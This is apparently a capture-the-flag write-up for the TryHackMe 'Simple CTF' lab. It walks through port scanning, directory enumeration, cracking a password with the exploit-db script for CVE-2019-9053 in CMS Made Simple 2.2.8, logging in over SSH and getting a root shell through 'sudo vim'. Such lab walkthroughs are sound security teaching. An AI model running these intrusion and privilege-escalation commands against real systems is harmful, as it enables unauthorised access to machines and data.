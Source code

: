 # [Simple CTF](https://tryhackme.com/room/easyctf)

## Deploy the machine and attempt the questions!

### How many services are running under port 1000?

### What is running on the higher port?

1. Running an nmap scan revealed two services running under port 1000. The scan also showed that SSH is running on a higher port

```Bash
nmap -sV <IP>
```

![SCREEN01](https://github.com/user-attachments/assets/52add270-a336-46d6-bd6d-01afb67d8bae)

### What's the CVE you're using against the application?

### To what kind of vulnerability is the application vulnerable?

1. Scanning with gobuster reveals the `/simple` endpoint, at the bottom of which we find `CMS Made Simple version 2.2.8`. A quick google search reveals CVE-2019-9053 exploit - SQL (sqli) Injection

```
gobuster dir -u http://<IP>:80 -w /root/Tools/wordlists/dirbuster/directory-list-2.3-medium.txt -x js,txt,html,php
```

![SCREEN02](https://github.com/user-attachments/assets/f55fbc6a-353b-4c53-ba90-3d20cb0a5a8f)
![SCREEN03](https://github.com/user-attachments/assets/45b0d3d3-16f9-4e28-92ae-6a6ade1b1f1b)

### What's the password?

1. Let's use the python script from [exploit-db](https://www.exploit-db.com/exploits/46635)

```Bash
python 46635.py -u http://<IP>:80/simple --crack -w /root/Desktop/Tools/wordlists/rockyou.txt
```

![SCREEN04](https://github.com/user-attachments/assets/028ca143-23a5-4e77-9310-2321e768811c)

### Where can you login with the details obtained

1. Looking back at the nmap results we can assume it is ssh

```Bash
ssh mitch@<IP>
python -c 'import pty; pty.spawn("/bin/bash")'
```

### What's the user flag?

1. The flag is right there in our starting directory

```Bash
cat user.txt
```

![SCREEN05](https://github.com/user-attachments/assets/080fb884-4fbd-42c5-bb78-d0e88a96af6c)

### Is there any other user in the home directory? What's its name?

1. Check the `/home` directory

```Bash
ls /home
```

![SCREEN06](https://github.com/user-attachments/assets/6a944ba7-b315-43e0-ae56-016226330f1a)

### What can you leverage to spawn a privileged shell?

1. Let's check what commands we can run with sudo privileges

```Bash
sudo -l
```

![SCREEN07](https://github.com/user-attachments/assets/2ef77377-6154-49c8-8714-90a9e454cdb1)

### What's the root flag?

1. Check [GTFOBins](https://gtfobins.github.io/gtfobins/vim/) for vim, and use the first command with sudo

```Bash
sudo vim -c ':!/bin/sh'
cat root/root.txt
```

![SCREEN08](https://github.com/user-attachments/assets/b8067291-6154-4a78-8d94-a1a0e9a93ace)

